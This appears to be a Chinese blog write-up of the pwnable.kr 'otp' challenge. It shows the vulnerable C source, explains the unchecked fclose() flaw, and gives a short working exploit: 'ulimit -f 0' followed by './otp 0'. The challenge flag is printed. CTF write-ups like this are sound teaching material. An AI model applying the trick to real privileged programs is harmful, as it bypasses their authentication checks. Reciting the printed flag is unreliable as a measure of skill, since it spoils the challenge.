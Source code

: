 ```yaml
---
title: pwnable.kr-otp
date: 2018-02-26 10:56:31
tags: [pwnable.kr,PWN]
categories: CTF
---
```

# 前言
开始一直在找溢出点哈哈，最后实在没有头绪看了别人的[writeup](http://blog.csdn.net/z231288/article/details/65512472)
# 分析
先分析源码`otp.c`
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

int main(int argc, char* argv[]){
	char fname[128];
	unsigned long long otp[2];

	if(argc!=2){
		printf("usage : ./otp [passcode]\n");
		return 0;
	}

	int fd = open("/dev/urandom", O_RDONLY);
	if(fd==-1) exit(-1);

	if(read(fd, otp, 16)!=16) exit(-1);
	close(fd);

	sprintf(fname, "/tmp/%llu", otp[0]);
	FILE* fp = fopen(fname, "w");
	if(fp==NULL){ exit(-1); }
	fwrite(&otp[1], 8, 1, fp);
	fclose(fp);

	printf("OTP generated.\n");

	unsigned long long passcode=0;
	FILE* fp2 = fopen(fname, "r");
	if(fp2==NULL){ exit(-1); }
	fread(&passcode, 8, 1, fp2);
	fclose(fp2);
	
	if(strtoul(argv[1], 0, 16) == passcode){
		printf("Congratz!\n");
		system("/bin/cat flag");
	}
	else{
		printf("OTP mismatch\n");
	}

	unlink(fname);
	return 0;
}
	


```
程序从`/dev/urandow`伪随机设备里读出16个字节，前8个字节用作文件名后8字节存在该文件里，最后会从文件中读出8字节与传入的参数做比较，相等就能getflag。
开始找溢出点半天也没找到，题目也说了不能爆破所以是一点头绪也没有。后来看了别人的writeup后真是郁闷，原来题目平台还能使用`ulimit`命令，该命令的介绍百度就有很多。这里使用`ulimit -f 0`来限制进程创建文件的大小为0,这样程序在执行`fclose`的时候缓冲区的内容就无法写入文件，那么最后读出来的就是0了。
于是exp就出来了，直接在题目平台上搞
```bash
otp@ubuntu:~$ ulimit -f 0
otp@ubuntu:~$ python
Python 2.7.12 (default, Jul  1 2016, 15:12:24) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system('ls')
flag  otp  otp.c
0
>>> os.system('./otp 0')
OTP generated.
Congratz!
Darn... I always forget to check the return value of fclose() :(
0
>>> 

```
要注意的是，不能直接在shell里搞，因为这样shell直接会返回异常。
# 总结
这道题目的漏洞有内因和外因，内因就像flag中说的没有对`fclose`的返回值检查，导致可能写入文件失败。外因就是`ulimit`命令了，没有限制普通用户对它的使用。